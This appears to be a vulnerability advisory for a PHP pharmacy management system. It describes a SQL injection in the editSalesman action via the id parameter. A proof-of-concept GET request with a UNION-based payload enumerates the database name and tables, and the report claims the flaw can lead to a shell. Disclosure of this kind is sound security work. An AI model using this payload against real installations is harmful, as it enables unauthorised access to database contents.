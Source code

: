 # pms editSalesman SQL injection vulnerability

## NAME OF AFFECTED PRODUCT(S)

**pharmacy-management-system-in-php-with-source-code**

### Vendor Homepage

https://code-projects.org/pharmacy-management-system-in-php-with-source-code/

###  **Manufacturers sites:**

 https://code-projects.org/

## AFFECTED AND/OR FIXED VERSION(S)

### VERSION

-  v1.0

### Software Link

 https://download-media.code-projects.org/2020/10/Pharmacy_Management_System_In_PHP_With_Source_Code.zip

### **AFFECTED FUNCION**

editSalesman 

## PROBLEM TYPE

### Vulnerability Type

- sql injection

### Root Cause

- editSalesman

  Int action of edit Salesman ,The id parameter is obtained and saved to Salesmanid, and the application statement is spliced, and there is a vulnerability in the application injection

  ![image-20240816210200985](https://github.com/user-attachments/assets/43e3036a-71c1-4fbf-a593-7e67b369ace4)

## **Description of the vulnerability**

pharmacy_Management_System latest version has SQL injection via editSalesman, which can get information about the database and even GetShell via SQL injection

## **Vulnerability recurrence**

We need to set up this PMS website locally

Let's open the  /Index.php?id=allSalesman route

![image-20240723135616912](https://github.com/user-attachments/assets/351a00ed-dfaf-4d7f-8a72-3642e28d830d)



![image-20240723142715784-1723812909090](https://github.com/user-attachments/assets/817d8f0e-6138-4ba1-872d-240ee99f73bb)

![image-20240723142737947-1723812909090](https://github.com/user-attachments/assets/732fb69a-6417-4d66-98fc-f2f5371ecea9)

**POC**

```
GET /index.php?action=editSalesman&id=10}'+union+select+1,database(),(SELECT+GROUP_CONCAT(table_name)+FROM+information_schema.tables+WHERE+table_schema=database()),4,5,6,7,8+order+by+id+limit+0,1--+ HTTP/1.1
```

**Result**

![image-20240723142821268-1723812909091](https://github.com/user-attachments/assets/22ced658-2f56-4f92-8192-19e086b9eb57)


